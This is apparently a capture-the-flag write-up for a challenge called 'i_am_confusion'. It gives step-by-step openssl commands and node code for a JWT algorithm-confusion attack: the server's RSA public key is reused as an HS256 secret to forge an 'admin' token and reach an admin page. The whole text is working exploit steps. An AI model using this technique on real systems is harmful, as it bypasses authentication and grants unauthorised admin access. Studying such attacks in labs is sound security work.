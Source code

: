 i_am_confusion
============

Step 1: Extract server's certificate
openssl s_client -connect 172.25.80.1:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem

Step 2: Convert the certificate to x509
openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem

Step 3: Convert the public key to be in RSA format
openssl rsa -inform PEM -in pubkey.pem -pubin -RSAPublicKey_out -outform PEM > pubkey.rsa

Step 3: Use node cli to sign JWT with the algorithm as HS256 and sign with the x509 public key

>node
> const jwt = require('jsonwebtoken')
> var fs = require('fs')
> var pub = fs.readFileSync('pubkey.rsa');
> token = jwt.sign({ 'user': 'admin' }, pub, { algorithm:'HS256' });
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE3MjAzMzE2MzJ9.5pQCXHaYlVjVxXRpt58kBy_kQi94RBqRDeeqWlZh05g'

Step 4: Use the JWT token to get access to admin page

Step 5: Rejoice!

